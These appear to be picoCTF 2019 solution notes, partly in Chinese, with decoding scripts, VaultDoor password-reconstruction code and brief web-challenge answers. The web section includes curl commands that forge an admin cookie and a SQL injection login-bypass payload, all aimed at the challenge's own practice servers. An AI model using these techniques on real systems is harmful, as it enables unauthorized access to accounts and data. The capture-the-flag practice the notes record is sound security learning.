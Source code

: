 # 2019game.picoctf.com/game

## General skills

### Based
``` python
import codecs
print(''.join([chr(int(c , 2)) for c in input().split()]))
print(''.join([chr(int(c , 8)) for c in input().split()]))
print(codecs.decode(input(), "hex"))
```
### strings
``` bash 
strings strings | grep pico  
```

## VaultDoor1
step0: Get code
``` plaintext
        return password.length() == 32 &&
               password.charAt(0)  == 'd' &&
               password.charAt(29) == '8' &&
               password.charAt(4)  == 'r' &&
               password.charAt(2)  == '5' &&
               password.charAt(23) == 'r' &&
               password.charAt(3)  == 'c' &&
               password.charAt(17) == '4' &&
               password.charAt(1)  == '3' &&
               password.charAt(7)  == 'b' &&
               password.charAt(10) == '_' &&
               password.charAt(5)  == '4' &&
               password.charAt(9)  == '3' &&
               password.charAt(11) == 't' &&
               password.charAt(15) == 'c' &&
               password.charAt(8)  == 'l' &&
               password.charAt(12) == 'H' &&
               password.charAt(20) == 'c' &&
               password.charAt(14) == '_' &&
               password.charAt(6)  == 'm' &&
               password.charAt(24) == '5' &&
               password.charAt(18) == 'r' &&
               password.charAt(13) == '3' &&
               password.charAt(19) == '4' &&
               password.charAt(21) == 'T' &&
               password.charAt(16) == 'H' &&
               password.charAt(27) == '3' &&
               password.charAt(30) == '4' &&
               password.charAt(25) == '_' &&
               password.charAt(22) == '3' &&
               password.charAt(28) == 'f' &&
               password.charAt(26) == '0' &&
               password.charAt(31) == '1';
```

step1
``` plaintext
:%s/.charAt(/[/g
:%s/)/]/g
:%s/==/=/g
:%s/;//g
:%s/&&//g
:%s/ //g
```

step2
``` python
password = [0] * 32
password[0]='d'
password[29]='8'
password[4]='r'
password[2]='5'
password[23]='r'
password[3]='c'
password[17]='4'
password[1]='3'
password[7]='b'
password[10]='_'
password[5]='4'
password[9]='3'
password[11]='t'
password[15]='c'
password[8]='l'
password[12]='H'
password[20]='c'
password[14]='_'
password[6]='m'
password[24]='5'
password[18]='r'
password[13]='3'
password[19]='4'
password[21]='T'
password[16]='H'
password[27]='3'
password[30]='4'
password[25]='_'
password[22]='3'
password[28]='f'
password[26]='0'
password[31]='1'
print(''.join(password))
```

## VaultDoor3.java

``` python
buffer = "jU5t_a_sna_3lpm17ga45_u_4_mbrf4c"
password = [0] * 32

# for (i=0; i<8; i++) buffer[i] = password.charAt(i);
for i in range(0, 8):
    password[i] = buffer[i]

# for (; i<16; i++) buffer[i] = password.charAt(23-i);
for i in range(8, 16):
    password[23 - i] = buffer[i]

# for (; i<32; i+=2) buffer[i] = password.charAt(46-i);
for i in range(16, 32, 2):
    password[46 - i] = buffer[i]

# for (i=31; i>=17; i-=2) buffer[i] = password.charAt(i);
for i in range(31, 17 - 1, -2):
    password[i] = buffer[i]

print(''.join(password))
```

## VaultDoor4.java
``` java
import java.io.UnsupportedEncodingException;
import java.util.*;

class VaultDoor4 {
  public static void main(String args[]) {
    byte[] myBytes = {
        106,
        85,
        53,
        116,
        95,
        52,
        95,
        98,
        0x55,
        0x6e,
        0x43,
        0x68,
        0x5f,
        0x30,
        0x66,
        0x5f,
        0142,
        0131,
        0164,
        063,
        0163,
        0137,
        0142,
        071,
        'e',
        '9',
        '2',
        'f',
        '7',
        '6',
        'a',
        'c',
    };

    try {
      String s = new String(myBytes, "UTF-8");
      System.out.println(s);
    } catch (UnsupportedEncodingException e) {
    }
  }
}
```

print flag
``` bash
javac VaultDoor4.java
java VaultDoor4
```

## 水題 
- Insp3ct0r: 三個部份瀏覽後接在一起
- where are the robots
  - https://2019shell1.picoctf.com/problem/4159/robots.txt
  - https://2019shell1.picoctf.com/problem/4159/a44f7.html
- The Numbers 
  - ''.join([chr(ord('A') - 1 + c)for c in [16, 9, 3, 15, 3, 20, 6, 20, 8, 5, 14, 21, 13, 2, 5, 18, 19, 13, 1, 19, 15, 14]])
- 13: rot

## web
### logon
``` bash
curl https://2019shell1.picoctf.com/problem/32270/flag --cookie 'admin=True' 
```
### Open-to-admins
``` bash
curl https://2019shell1.picoctf.com/problem/49858/flag --cookie 'admin=True;time=1400' 
```
### Irish-Name-Repo 1

SQL injection

https://2019shell1.picoctf.com/problem/12273/login.html

user name
``` SQL
' or 1 = 1 --
```

### Empire1
Create a Card 的 `/`、`-`、`/` 被過濾
